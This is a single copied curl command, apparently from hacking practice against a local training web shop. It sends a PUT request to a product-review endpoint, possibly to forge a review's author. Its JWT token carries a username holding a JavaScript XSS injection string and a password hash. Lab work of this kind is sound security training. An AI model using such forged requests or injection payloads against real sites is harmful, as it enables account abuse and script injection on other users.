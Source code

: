 curl 'http://localhost:3000/rest/products/1/reviews' -X PUT -H 'User-Agent: hackerman' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MjIsInVzZXJuYW1lIjoiQ2FsbCBtZSByYz1cImphdmFzY3JpcHQ6YWxlcnQoYHhzc2ApXCI-IiwiZW1haWwiOiJjakBudWxsLmNvbXB1dGVyIiwicGFzc3dvcmQiOiJjYzAzZTc0N2E2YWZiYmNiZjhiZTc2NjhhY2ZlYmVlNSIsInJvbGUiOiJjdXN0b21lciIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiL2Fzc2V0cy9wdWJsaWMvaW1hZ2VzL3VwbG9hZHMvZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjQtMDEtMTAgMjA6MzY6NTMuMzgyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjQtMDEtMTAgMjA6Mzc6NDMuMTkwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTcwNDkxOTc0M30.NakKLanPKEWyu2SgvgTV0EZtWkSGI7dupkbljivtbsFmpb9j_V9DLZky4mehFxaDmrFkXOqhZl4MuYa1KmSGwGn6HgzoTZTnyfv5LAsV07Eyv8pxG4mAuim9cFeajiP2DdPbwmgooeOJIoatp6fDS6a4gbdSRmj79g7AKclV0qs' -H 'Content-Type: application/json' -H 'Origin: http://localhost:3000' -H 'Connection: keep-alive' -H 'Referer: http://localhost:3000/' -H 'Cookie: language=en; welcomebanner_status=dismiss; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MjIsInVzZXJuYW1lIjoiQ2FsbCBtZSByYz1cImphdmFzY3JpcHQ6YWxlcnQoYHhzc2ApXCI-IiwiZW1haWwiOiJjakBudWxsLmNvbXB1dGVyIiwicGFzc3dvcmQiOiJjYzAzZTc0N2E2YWZiYmNiZjhiZTc2NjhhY2ZlYmVlNSIsInJvbGUiOiJjdXN0b21lciIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiL2Fzc2V0cy9wdWJsaWMvaW1hZ2VzL3VwbG9hZHMvZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjQtMDEtMTAgMjA6MzY6NTMuMzgyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjQtMDEtMTAgMjA6Mzc6NDMuMTkwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTcwNDkxOTc0M30.NakKLanPKEWyu2SgvgTV0EZtWkSGI7dupkbljivtbsFmpb9j_V9DLZky4mehFxaDmrFkXOqhZl4MuYa1KmSGwGn6HgzoTZTnyfv5LAsV07Eyv8pxG4mAuim9cFeajiP2DdPbwmgooeOJIoatp6fDS6a4gbdSRmj79g7AKclV0qs' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' -H 'Sec-GPC: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw '{"message":"Test again","author":"cj@null.computer"}'